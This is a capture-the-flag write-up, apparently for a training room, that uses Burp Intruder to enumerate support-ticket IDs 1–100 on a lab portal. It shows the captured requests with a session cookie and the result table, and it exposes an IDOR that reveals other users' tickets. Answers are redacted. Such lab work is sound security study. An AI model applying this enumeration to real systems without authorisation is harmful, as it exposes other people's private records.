






## Exercises

### Question 1 — Which attack type is best suited for this task?

I logged into the support portal using `m.rivera` / `letmein1`, landing on the Support Home page. It listed three tickets assigned to that account in a table, with Ticket 78 marked as resolved and Tickets 6 and 57 still open.



Clicking into Ticket 6 opened its full page at `/support/ticket/6`, showing an Email field, a Query field, and a Ticket Resolved checkbox:



With the endpoint taking a single integer in the path and nothing else varying between ticket pages, only one position needs fuzzing — the ticket number itself, tested against one payload set. That's a single-position attack, which is exactly what —REDACTED— is built for.

**Answer:** `—REDACTED—`

### Question 2 — Configure an appropriate position and payload (the tickets are stored at values between 1 and 100), then start the attack. You should find that at least five tickets will be returned with a status code 200, indicating that they exist.

I generated a wordlist covering every value from 1 to 100:

```shell
for i in {1..100};do echo $i >> numbers.txt;done
```

**Breakdown:**

- `for i in {1..100}` loops the variable `i` through every integer from `1` to `100` inclusive, using Bash's brace expansion to generate the range
- `do echo $i >> numbers.txt` runs on each iteration: `echo $i` prints the current number, and `>> numbers.txt` appends it as a new line to `numbers.txt` rather than overwriting the file each time
- `done` closes the loop

With Burp Proxy active and logged in as `m.rivera`, I navigated to `/support/ticket/6` and captured the request, which carried the session cookie from the login:

```http
GET /support/ticket/6 HTTP/1.1
Host: 10.112.160.134
Referer: http://10.112.160.134/support/
Cookie: session=eyJTdXBwb3JOQXVOaCI6IlRydWUiLCJTdXBwb3JOSUQiOjN9.avy2_g.yCaVmEf6sdbk8ZvjqZJIBVDmu7E
```

I sent this to Intruder, marked the ticket number as the single payload position, and selected **—REDACTED—** as the attack type:

```http
GET /support/ticket/§6§ HTTP/1.1
Host: 10.112.160.134
```



For the payload, I loaded `numbers.txt` as a Simple list, giving a payload count of 100 and a matching request count of 100:



Running the attack and sorting by status code showed six requests returning `200`, against a uniform `404` (length `3309`) for everything else:

|Request|Payload|Status|Length|
|---|---|---|---|
|0|6|200|4851|
|6|6|200|4851|
|47|47|200|5036|
|57|57|200|5086|
|78|78|200|4967|
|83|83|200|4895|



Request 0 was the unmodified baseline Burp sends before substituting any payload, which happened to be the original `/support/ticket/6` request itself — the same ticket also appeared again at request 6, once the payload list's own value of `6` was substituted in. So the six `200` responses actually pointed to five distinct ticket numbers: `6`, `47`, `57`, `78`, and `83`. Since the logged-in account was only shown three tickets (`6`, `57`, `78`) on the Support Home page, tickets `47` and `83` being readable too confirmed the endpoint has no access control on the ticket number — an IDOR.

**Answer:** `No answer needed`

### Question 3 — Either using the Response tab in the Attack Results window or by looking at each successful (i.e. 200 code) request manually in your browser, find the ticket that contains the flag. What is the flag?

Looking through the responses that came back as `200`, Ticket 83 was the one that returned the flag. Its response showed a disabled Email field addressed to `flag@bastionhosting.thm`, and a disabled Query textarea containing the flag itself:

```http
GET /support/ticket/83 HTTP/1.1
Host: 10.112.160.134
Cookie: session=eyJTdXBwb3JOQXVOaCI6IlRydWUiLCJTdXBwb3JOSUQiOjN9.avy2_g.yCaVmEf6sdbk8ZvjqZJIBVDmu7E

—SNIP—
<a href="mailto:flag@bastionhosting.thm">
    <input class="form-control" name="email" type="text" disabled value="flag@bastionhosting.thm">
    <label for="email">
        Email
    </label>
</a>
<div class="form-floating mb-3">
    <textarea class="form-control" id="message" type="text" style="height: 10rem" disabled>
        —REDACTED—
    </textarea>
    <label for="message">
        Query
    </label>
</div>
—SNIP—
```



**Answer:** `—REDACTED—`